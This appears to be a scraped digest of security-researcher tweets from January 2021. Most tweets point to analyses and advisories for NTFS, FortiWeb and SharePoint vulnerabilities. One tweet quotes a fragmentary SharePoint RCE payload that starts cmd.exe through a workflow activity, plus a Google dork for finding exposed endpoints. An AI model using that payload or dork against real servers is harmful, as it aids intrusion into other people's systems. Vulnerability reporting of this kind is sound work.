* https://github.com/ch1nghz/CVE-2020-11851

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1347042122554339328 _at 2021-01-07, 04:47:23_**
<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis  https://t.co/0tyZqwYp8g  #Pentesting #RCE #Vulnerability #Exploit #CyberSecurity #Infosec https://t.co/WAIoPMYrVp
</blockquote>

* https://blog.zecops.com/vulnerabilities/ntfs-remote-code-execution-cve-2020-17096-analysis/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1346806951326396416 _at 2021-01-06, 13:12:54_**
<blockquote>
A swarm of FortiWeb CVE-s is here:

1️⃣Unauth SQL Injection (CVE-2020-29015)
2️⃣Unauth Buffer Overflow (CVE-2020-29016)
3️⃣Unauth Buffer Overflow (CVE-2020-29019)
4️⃣Format String (CVE-2020-29018)

Attributed to: Andrey Medov

Advisories: https://t.co/TwDduMauXc https://t.co/BTSMJki2ld
</blockquote>

* https://www.fortiguard.com/psirt?date=01-2021

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>252</code></td>
<td>Favorites: <code>549</code></td>
</tr></table>

---

# ale_sp_brazil
**https://twitter.com/ale_sp_brazil/status/1346703252507787264 _at 2021-01-06, 06:20:50_**
<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis:

https://t.co/QeH0EuzRQu

#exploitation #windows #ntfs #cybersecurity https://t.co/7cTlb5RvpI
</blockquote>

* https://blog.zecops.com/vulnerabilities/ntfs-remote-code-execution-cve-2020-17096-analysis/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# ZecOps
**https://twitter.com/ZecOps/status/1346559882825064450 _at 2021-01-05, 20:51:08_**
<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis - ZecOps Blog https://t.co/RvjL9lEEtZ
</blockquote>

* https://blog.zecops.com/vulnerabilities/ntfs-remote-code-execution-cve-2020-17096-analysis/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>245</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1346348017389998081 _at 2021-01-05, 06:49:15_**
<blockquote>
CVE-2020-0646 SharePoint RCE

PoC
CallExternalMethodActivity x:Name="foo" 
....System.Diagnostics.Process.Start("cmd.exe",

Google Dork
.sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec

https://t.co/DRGcSRZ6Co https://t.co/w1OI4ADbbJ
</blockquote>

* https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>179</code></td>
<td>Favorites: <code>418</code></td>
</tr></table>

---

# Shadow0pz
**https://twitter.com/Shadow0pz/status/1346156099750268931 _at 2021-01-04, 18:06:39_**
<blockquote>
@IanColdwater Drops CVE-2021-0231 A Twitter RCE via timing attack thus extending February to 31 days.

So far it appears this exploit POC has been very successful.

😂😂

❤️ Ian you deserve to be verified. Here's hoping it happens this year.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

